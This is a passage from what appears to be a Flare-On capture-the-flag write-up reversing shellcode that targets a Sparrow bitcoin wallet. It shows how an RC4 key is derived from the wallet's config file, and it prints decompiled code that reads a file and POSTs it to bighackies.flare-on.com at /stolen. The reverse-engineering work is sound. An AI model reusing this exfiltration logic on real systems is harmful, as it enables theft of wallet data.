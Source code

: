 ```c
  }
}
```

This time, The **RC4** key comes from the Sparrow's `config` file, where shellcode searches for the 
`[` and `"` characters. This is how a `config` file looks like:
```
{
  "mode": "OFFLINE",
  "bitcoinUnit": "BTC",
  ...
  "preventSleep": false,
  "recentWalletFiles": [
    "/home/ispo/.sparrow/wallets/ispo_wallet.mv.db"
  ],
  "dustAttackThreshold": 1000,
  "hwi": "/tmp/hwi-2.3.114708156898038994654.tmp",
  ...
  "appWidth": 2558.0,
  "appHeight": 1421.0
}
```

The only value that contains `[]` is the `recentWalletFiles`. Shellcode searches backwards from
the `[` to the first `"` (which is `"recentWalletFiles"`) and the searches backwards again for the 
first quote, so the key is also `recentWalletFiles` (this time is **17** bytes).


#### Reversing Stage #4 Shellcode

The **stage #4** shellcode is slightly different:
```c
void __fastcall __noreturn u_entry_point() {
  /*... */
  (u_decrypt_string)(glo_encr_str, &v0);
  glo_shellcode_stage5_size = 3496;
  glo_shellcode_stage5_ptr = glo_shellcode_stage5;
  u_decrypt_n_run_shellcode();
}
```

```c
void __fastcall __noreturn u_decrypt_n_run_shellcode() {
  /* ... */
  sub_4C7("C:\\depot", "C:\\depot\\output");
  hdl = u_OpenFile("C:\\depot\\output", 0x80000000);
  hdl_ = hdl;
  if ( hdl >= 0 ) {
    size = (qword_C81[6])(hdl, 0i64);
    size_ = size;
    if ( size ) {
      buf = u_alloc(size);
      nread = u_ReadFile(hdl_, buf, size_);
      u_CloseHandle(hdl_);
      if ( nread == size_ ){
        v6 = (qword_CE1[5])("bananabot 5000", 1i64, 0i64, 0i64, 0i64, "bananabot 5000");
        v8 = v6;
        if ( v6 ) {
          port = 443;
          v9 = (qword_CE1)[4](v6, "bighackies.flare-on.com", *&port, 0i64, 0i64, 3i64, 0i64, 0i64);
          v10 = v9;
          if ( v9 ) {
            v11 = (*aTheDecryptionO)(v9, "POST", "/stolen", 0i64, 0i64, 0i64, 0x800000i64, 0i64);
            v12 = v11;
            if ( v11 ) {
              v13 = (qword_CE1[2])(
```
